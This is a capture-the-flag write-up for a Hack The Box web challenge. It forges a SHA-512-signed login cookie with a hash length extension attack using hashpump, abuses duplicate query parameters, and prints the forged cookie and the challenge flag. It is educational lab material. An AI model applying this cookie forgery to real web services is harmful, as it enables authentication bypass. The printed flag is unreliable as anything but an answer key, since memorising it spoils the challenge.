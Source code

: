 > Another day of flexing your muscles in the mirror and still not being satisfied
> with your body image. Pumped full of adrenaline and creatine, the only thing
> missing for you is a good workout program. We heard that the best one out there
> is from the Swole Eagle gym, but they've closed down the registrations because
> the FDA is hunting them down for the one secret that natty bodybuilders hate.
> With an appetite for breaking rules, and an oven full of protein cookies ready
> to become the post-workout treat of the day, you'll have to get the right
> exercise going to not waste any of that precious muscle mass building potential.
> Infiltrate the portal of the gym membership and get the exercise program you
> know you deserve!

> Authors: **[shazb0t][author-profile-1]** & **[makelaris][author-profile-2]**

## Working out the recipe

### From diet cookies

Let's start from the final goal, in the source code:

```python
@web.route('/program')
@verify_login
def program():
    return send_file('flag.pdf')
```

`verify_login` checks the `login_info` from the web cookies:

```python
if not session.validate_login(request.cookies.get('login_info', '')):
```

And that cookie is made of two parts:

1) the arguments:
  - `username=guest&isLoggedIn=False` formated as URI components
  - and then base64 encoded
2) the digest:
  - the input string is hashed together with a secret
  - and then base64 encoded too

```python
COOKIE = 'dXNlcm5hbWU9Z3Vlc3QmaXNMb2dnZWRJbj1GYWxzZQ==.ZjYxZmMwNWIxOTM2MTI0YjVkZTlkYzcyOWFjZTFmN2IxYTlmMWU2NjAzN2MzN2EzZDNhYWU5MDE1NmUyZmNiNzE3OTVmNzg1YWQ4YzFjOGE1MzVlM2ZkMTFhOGZjOTU5YTc3YjcwNTJlMGJjM2I2YjAyMDM2YmUyNmE5YTgwZWY='.split('.')
base64.b64decode(COOKIE[0])
# b'username=guest&isLoggedIn=False'
base64.b64decode(COOKIE[1])
# b'f61fc05b1936124b5de9dc729ace1f7b1a9f1e66037c37a3d3aae90156e2fcb71795f785ad8c1c8a535e3fd11a8fc959a77b7052e0bc3b6b02036be26a9a80ef'
```

Ultimately we want the cookie to satisfy this test:

```python
return { ... }.get('isLoggedIn', '') == 'True'
```

Since we can't register there's no way to actually login with a known password.
We'll have to directly tweak the cookie in some way.

### Extra ingredients

The test mentioned above has two interesting particularities:

```python
if signature.integrity(hashing_input, crypto_segment):
    return {
        k: v[-1] for k, v in urlparse.parse_qs(signature.decode(hashing_input)).items()
    }.get('isLoggedIn', '') == 'True'
```

#### Overwriting the parameters

> First `k: v[-1]`: a single value is kept for each key and it is the last.

So with `username=guest&isLoggedIn=False&username=apehex&isLoggedIn=True`, the
processing will return:

```python
{
    'username': 'apehex',
    'isLoggedIn': 'True'
}
```

Half of the requirements are met.

#### Reusing the known hash

Next the `signature.integrity` check on the first line:

```python
    @staticmethod
    def create(payload, secret=secret):
        return signature.encode(hashlib.sha512(secret + payload).hexdigest())
    
    @staticmethod
    def integrity(hashing_input, crypto_segment):
        return signature.create(signature.decode(hashing_input)) == crypto_segment
```

> The secret is prepend to the input string!

This means that if we append to the input as we did in the previous section,
the argument of the hash function starts the same:

```python
# secret prepending: win
secret + (payload + addition) == (secret + payload) + addition
# secret appending: fail
(payload + addition) + secret != (payload + secret) + addition
# still we're missing a piece:
hashlib.sha512((secret + payload) + addition) != hashlib.sha512(secret + payload) + hashlib.sha512(addition)
```

We can't directly reuse the known digest.

### Baking fat cookies

That's were magic happens with `Hashpump`, the protein addition to our routine!

Here I'll just use the tool, for more details head over to the [bonus section](#bonus).

So we want the legit digest of "username=guest&isLoggedIn=False&username=apehex&isLoggedIn=True"
from the digest of "username=guest&isLoggedIn=False". Hashpum makes it easy:

```bash
hashpump -k 16 --data 'username=guest&isLoggedIn=False' -a '&username=apehex&isLoggedIn=True' \
    -s 'f61fc05b1936124b5de9dc729ace1f7b1a9f1e66037c37a3d3aae90156e2fcb71795f785ad8c1c8a535e3fd11a8fc959a77b7052e0bc3b6b02036be26a9a80ef'
# 8b0cede6ffa7d9fafa9947a5cd595410c726cc2d660c576b9221fd6ae08505a75e9c1e0bd28d55d47e6d59539ccb6da5fef71811ec58e04c34101907d8591d69
# username=guest&isLoggedIn=False\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01x&username=apehex&isLoggedIn=True
```

Next, format these as a cookie:

```python
input = b'username=guest&isLoggedIn=False\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01x&username=apehex&isLoggedIn=True'
signature = b'8b0cede6ffa7d9fafa9947a5cd595410c726cc2d660c576b9221fd6ae08505a75e9c1e0bd28d55d47e6d59539ccb6da5fef71811ec58e04c34101907d8591d69'
cookie = base64.b64encode(input) + b'.' + base64.b64encode(signature)
# b'dXNlcm5hbWU9Z3Vlc3QmaXNMb2dnZWRJbj1GYWxzZYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABeCZ1c2VybmFtZT1hcGVoZXgmaXNMb2dnZWRJbj1UcnVl.OGIwY2VkZTZmZmE3ZDlmYWZhOTk0N2E1Y2Q1OTU0MTBjNzI2Y2MyZDY2MGM1NzZiOTIyMWZkNmFlMDg1MDVhNzVlOWMxZTBiZDI4ZDU1ZDQ3ZTZkNTk1MzljY2I2ZGE1ZmVmNzE4MTFlYzU4ZTA0YzM0MTAxOTA3ZDg1OTFkNjk='
```

And switfly head over to `/program` with our new body, while it's still full of air:

![][flag]

> HTB{l1ght_w31ght_b4b3h!}

"Έγγραφο χωρίς τίτλο" is Greek for "Untitled document".

## Running in Python

There's a port of Hashpump to Python, Hashpumpy: the whole process can be
written in a single script, with the dependencies as a Poetry env.

To run `decrypt.py`, first [install Poetry][poetry-docs] and run:

```bash
# installs hashpumpy; run this in the directory containing `pyproject.toml`
poetry install
# loads the virtual env
poetry shell
# replace with your cookie
python decrypt.py $'dXNlcm5hbWU9Z3Vlc3QmaXNMb2dnZWRJbj1GYWxzZQ==.ZjYxZmMwNWIxOTM2MTI0YjVkZTlkYzcyOWFjZTFmN2IxYTlmMWU2NjAzN2MzN2EzZDNhYWU5MDE1NmUyZmNiNzE3OTVmNzg1YWQ4YzFjOGE1MzVlM2ZkMTFhOGZjOTU5YTc3YjcwNTJlMGJjM2I2YjAyMDM2YmUyNmE5YTgwZWY='
# b'dXNlcm5hbWU9Z3Vlc3QmaXNMb2dnZWRJbj1GYWxzZYAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABeCZ1c2VybmFtZT1hcGVoZXgmaXNMb2dnZWRJbj1UcnVl.OGIwY2VkZTZmZmE3ZDlmYWZhOTk0N2E1Y2Q1OTU0MTBjNzI2Y2MyZDY2MGM1NzZiOTIyMWZkNmFlMDg1MDVhNzVlOWMxZTBiZDI4ZDU1ZDQ3ZTZkNTk1MzljY2I2ZGE1ZmVmNzE4MTFlYzU4ZTA0YzM0MTAxOTA3ZDg1OTFkNjk='
```

## <a name="bonus"></a>Bonus : the hash extension attack

The exploit for this challenge is the SHA-512 variant of the hash extension attack.

There's a little sublety with the padding, as explained in the [wiki article][wiki-length-extension-attack].

The SHA-512 algorithm operates on blocks of 1024 bits: without the spacing
between the original input and the addition, they both land in the same block.
This would result in a hash different from the one known.

So hashing "username=guest&isLoggedIn=False" with the secret and the padding
produces the known digest "f61fc05b1936124b5de9dc729ace1f7b1a9f1e66037c37a3d3aae90156e2fcb71795f785ad8c1c8a535e3fd11a8fc959a77b7052e0bc3b6b02036be26a9a80ef".

This digest contains the internal state of the SHA-512 hashing algorithm: Hashpump
can pick up where SHA-512 left at the end of the first block without knowing
the secret!

[author-profile-1]: https://app.hackthebox.eu/users/32848
[author-profile-2]: https://app.hackthebox.eu/users/107

[flag]: images/flag.png
[poetry-docs]: https://python-poetry.org/docs/
[wiki-length-extension-attack]: https://en.wikipedia.org/wiki/Length_extension_attack
